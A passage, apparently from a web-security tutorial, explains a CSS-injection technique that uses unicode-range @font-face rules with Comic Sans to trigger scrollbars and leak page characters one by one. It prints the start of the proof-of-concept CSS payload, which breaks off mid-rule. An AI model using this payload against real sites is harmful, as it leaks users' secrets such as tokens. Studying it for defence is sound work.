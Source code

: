 **C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**

When a new char goes to the first line, the **unicode-range trick is used to detect the new character in the prefix**. This detection is made changing the font to Comic Sans, which its heigth is superior so a **vertical scrollbar is triggered** (leaking the char value). This way we can leak every different character one time. **We can detect if a character is repated but not what character is repeated**.


Basically, the **unicode-range is used to detect a char**, but as we don't want to load an external font, we need to find another way.\
When the **char** is **found**, it's **given** the pre-installed **Comic Sans font**, which **makes** the char **bigger** and **triggers a scroll bar** which will **leak the found char**.


Check the code extracted from the PoC:

```css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
@font-face{font-family:has_4;src:local('Comic Sans MS');unicode-range:U+34;font-style:monospace;}
@font-face{font-family:has_5;src:local('Comic Sans MS');unicode-range:U+35;font-style:monospace;}
@font-face{font-family:has_6;src:local('Comic Sans MS');unicode-range:U+36;font-style:monospace;}
@font-face{font-family:has_7;src:local('Comic Sans MS');unicode-range:U+37;font-style:monospace;}
@font-face{font-family:has_8;src:local('Comic Sans MS');unicode-range:U+38;font-style:monospace;}
@font-face{font-family:has_9;src:local('Comic Sans MS');unicode-range:U+39;font-style:monospace;}
@font-face{font-family:rest;src: local('Courier New');font-style:monospace;unicode-range:U+0-10FFFF}

div.leak {
```